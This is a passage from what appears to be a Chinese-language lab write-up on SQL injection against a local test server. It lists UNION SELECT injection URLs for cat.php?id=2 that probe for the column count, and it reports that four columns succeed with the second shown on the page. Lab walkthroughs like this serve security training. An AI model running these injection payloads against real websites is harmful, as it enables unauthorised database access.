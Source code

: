     使用下列查询url进行访问，发现只有union 后 SELECT 语句查询结果为4列时页面正常返回
    - `http://192.168.163.3/cat.php?id=2 union select 1`
    - `http://192.168.163.3/cat.php?id=2 union select 1,2`
    - `http://192.168.163.3/cat.php?id=2 union select 1,2,3`
    - `http://192.168.163.3/cat.php?id=2 union select 1,2,3,4`
    - `http://192.168.163.3/cat.php?id=2 union select 1,2,3,4,5`

    ![](img/20181102-16.png)

    select查询结果为4列时页面正常返回，并将第二列的数值在页面上进行了返回，推测该select语句应该是根据图片id查询图片名称的语句。

    ![](img/20181102-19.png)
